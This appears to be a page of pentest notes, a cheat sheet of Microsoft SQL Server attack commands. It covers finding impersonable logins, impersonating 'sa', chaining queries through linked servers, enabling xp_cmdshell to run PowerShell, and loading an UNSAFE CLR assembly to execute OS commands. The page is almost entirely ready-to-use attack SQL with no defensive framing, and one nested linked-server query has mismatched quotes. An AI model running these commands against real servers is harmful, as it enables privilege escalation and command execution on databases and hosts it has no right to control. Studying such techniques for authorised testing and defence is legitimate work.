 # MSSQL attacks

## MSSQL attacks

### Impersonation 

#### List impersonation account

```csharp
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
```

### Login As

```csharp
EXECUTE AS LOGIN = 'sa'
```

### RPC out

#### Enumeration

```csharp
select * from master..sysservers
```

![](../../../../.gitbook/assets/image%20%2887%29.png)

### Database Links

```csharp
select * from openquery("SERVER01", 'select * from master..sysservers')
```

```csharp
select * from openquery("sql1",'select * from openquery("server2",''select * from openquery("server3",''''select @@version as version;exec master..xp_cmdshell "powershell whoami)'''')'')')
```

### XP\_cmdshell Stored Procedures

#### Give me shell

```csharp
EXECUTE AS LOGIN = 'sa'
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
exec master..xp_cmdshell "powershell ls /"
```

![](../../../../.gitbook/assets/image%20%2847%29.png)

### Custom Assemblies

```text
EXECUTE AS LOGIN = 'sa';
USE msdb;  EXEC sp_configure 'show advanced options',1 ; RECONFIGURE ;
EXEC sp_configure 'clr enabled',1; RECONFIGURE ;
EXEC sp_configure 'clr strict security', 0; RECONFIGURE ;
DROP PROCEDURE IF EXISTS dbo.cmdExec ;
DROP ASSEMBLY IF EXISTS myAssembly;
CREATE ASSEMBLY myAssembly FROM 'c:\tools\cmdExec.dll' WITH PERMISSION_SET = UNSAFE;
CREATE PROCEDURE [dbo].[cmdExec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [myAssembly].[StoredProcedures].[cmdExec];
EXEC cmdExec 'whoami';
```

![](../../../../.gitbook/assets/image%20%28116%29.png)

